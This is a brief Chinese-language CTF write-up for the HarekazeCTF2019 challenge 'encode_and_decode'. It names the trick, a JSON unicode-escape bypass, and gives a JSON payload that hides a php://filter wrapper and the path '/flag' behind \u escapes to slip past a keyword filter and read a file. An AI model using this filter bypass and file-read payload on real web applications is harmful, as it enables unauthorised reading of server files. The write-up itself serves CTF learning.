 # HarekazeCTF2019

## encode_and_decode

利用点： json unicode 字符bypass

payload

```json
{
	"page":"ph\u0070://filter/convert.base64-encode/resource=/\u0066lag"
}
```